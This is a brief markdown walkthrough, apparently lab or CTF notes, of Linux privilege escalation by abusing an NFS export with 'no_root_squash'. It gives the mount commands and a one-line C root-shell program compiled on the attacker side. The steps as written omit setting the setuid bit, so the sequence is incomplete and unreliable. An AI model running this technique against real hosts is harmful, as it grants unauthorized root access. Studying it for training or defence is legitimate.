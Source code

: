 # Escalation vua NFS Root Squashing

## Enumeration

- `cat /etc/exports` in our example the "no root squash is defined for the tmp export. The folder is sharable and can be mounted  
![image](https://user-images.githubusercontent.com/96747355/170492475-be3f4b86-9814-4c4e-8b3f-498878469748.png)  

## Exploitation

### In our attacking machine

- `showmount -e IP-OF-TARGET` list the mountable folder of our target  
![image](https://user-images.githubusercontent.com/96747355/170492807-11bbb7d8-6d35-45f9-a46f-bb4ddccaa4e6.png)  
- `mkdir /tmp/1`
- `mount -o rw,vers=2 10.10.32.193:/tmp /tmp/1` we mount our folder
- `echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }' > /tmp/1/x.c` 
- `gcc /tmp/1/x.c -o /tmp/1/x`  
![image](https://user-images.githubusercontent.com/96747355/170493149-af6c0e73-d280-4f6d-8aff-1e3641e01c47.png)  

### In our target

- `/tmp/x` we can execute our binary
- We should be root!  
![image](https://user-images.githubusercontent.com/96747355/170493310-57fdcd27-d27c-4668-b052-3bfbae88ffd7.png)  
